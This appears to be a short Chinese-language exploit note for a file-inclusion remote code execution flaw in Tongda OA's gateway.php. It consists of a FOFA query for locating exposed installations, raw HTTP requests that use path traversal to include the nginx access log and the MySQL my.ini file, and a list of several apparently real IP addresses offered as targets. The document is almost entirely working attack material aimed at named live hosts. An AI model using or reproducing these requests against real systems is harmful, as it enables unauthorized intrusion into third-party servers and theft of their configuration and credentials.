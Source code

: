 # 通达OA gateway.php文件包含rce

    ## fofa

```
app="TDXK-通达OA"
```

## ispirit/interface/gateway.php

```
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 60.190.185.74:88
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 54

json={"url":"/general/../../nginx/logs/oa.access.log"}
```

## mac/gateway.php

```
POST /mac/gateway.php HTTP/1.1
Host: 60.190.185.74:88
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 54

json={"url":"/general/../../nginx/logs/oa.access.log"}
```

## 包含my.ini

```
http://60.190.185.74:88/mac/gateway.php?json={"url":"/general/../../mysql5/my.ini"}
```

## 例子

```
124.88.210.76:888
218.16.142.55:8888
218.70.17.86:88
60.190.185.74:88
60.6.214.120:88
```
